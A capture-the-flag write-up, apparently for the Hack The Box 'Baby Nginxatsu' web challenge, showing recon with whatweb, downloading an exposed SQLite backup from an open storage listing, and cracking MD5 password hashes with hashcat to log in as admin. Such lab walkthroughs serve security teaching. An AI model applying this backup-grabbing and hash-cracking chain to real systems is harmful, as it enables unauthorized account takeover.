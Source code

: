 # [Baby Nginxatsu](https://app.hackthebox.eu/challenges/180)

---  

__Title__: Baby Nginxatsu  
__Description__: A web site that allow user to create Nginx config   
__summary__: We were able to retrieve the admin password from a SQLite backup left on the server  
__Tags__:  nginx, php, sqlite, hashcat  
__host__: 178.128.175.172:32194  


---  


## Enumeration

### Initial

The first thing we did was to use the application (just like any user)

- Created an account
- Created few config files

### Platform information

```bash
$ whatweb 178.128.175.172:32194

http://178.128.175.172:32194 [302 Found] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTML5, HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Refresh-Redirect[http://178.128.175.172:32194/auth/login], PHP[7.4.12], RedirectLocation[http://178.128.175.172:32194/auth/login], Title[Redirecting to http://178.128.175.172:32194/auth/login], X-Powered-By[PHP/7.4.12], nginx

http://178.128.175.172:32194/auth/login [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Author[makelarisjr, makelaris], PHP[7.4.12], PasswordField[password], Title[nginxatsu], X-Powered-By[PHP/7.4.12], nginx
```
Running `whatweb` against the application we managed to get some information about the platform: Laravel (PHP 7.4.12)

### Nginx Config generator

The application generates Nginx configs that can be viewed using the id of the config E.g: http://178.128.175.172:32194/config/51

#### Configs storage

One interesting thing is that we can see the raw config E.g http://178.128.175.172:32194/storage/nginx_5ffb34aac767f.conf

visiting the folder http://178.128.175.172:32194/storage/ we can see that the server list all the available configs.

We can also see an interesting file: `v1_db_backup_1604123342.tar.gz`

```bash
$ wget http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz

--2021-01-10 17:31:20--  http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz
Connecting to 178.128.175.172:32194... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42496 (42K) [text/plain]
Saving to: ‘v1_db_backup_1604123342.tar.gz’

v1_db_backup_1604123342.t 100%[===================================>]  41.50K  --.-KB/s    in 0.06s   

2021-01-10 17:31:20 (691 KB/s) - ‘v1_db_backup_1604123342.tar.gz’ saved [42496/42496]
```

We are dealing with a tar file

```bash
$ file v1_db_backup_1604123342.tar.gz 
v1_db_backup_1604123342.tar.gz: POSIX tar archive (GNU)
```

Let's extract everything

```bash
$ tar -tvf v1_db_backup_1604123342.tar.gz
-rw-r--r-- www/www       40960 2021-01-10 16:50 database/database.sqlite
```

```bash
$ tar -xvf v1_db_backup_1604123342.tar.gz
database/database.sqlite
```

Let's load the file in `DB Browser for SQLite`



We have been able to retrieve few users (and their passwords hashes) from the DB.

### Password cracking

The password hashes are in MD5 

```bash
$ hash-identifier e7816e9a10590b1e33b87ec2fa65e6cd
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
````
Let's store the passwords hashes in a file 

```bash
$ cat users 

e7816e9a10590b1e33b87ec2fa65e6cd
96daf5684cfda2dd61750c3719f5fb19
ecbbcb87173b6501ef44184c58d380a7
```

Using Hashcat we have retrieved a password

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt       
hashcat (v6.1.1) starting...

...
```

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt --show
e7816e9a10590b1e33b87ec2fa65e6cd:adminadmin1
```

At this point we have `jr` password `adminadmin1`


Using those information we manage to logged in to `jr` account and because he was the admin, we got the flag.

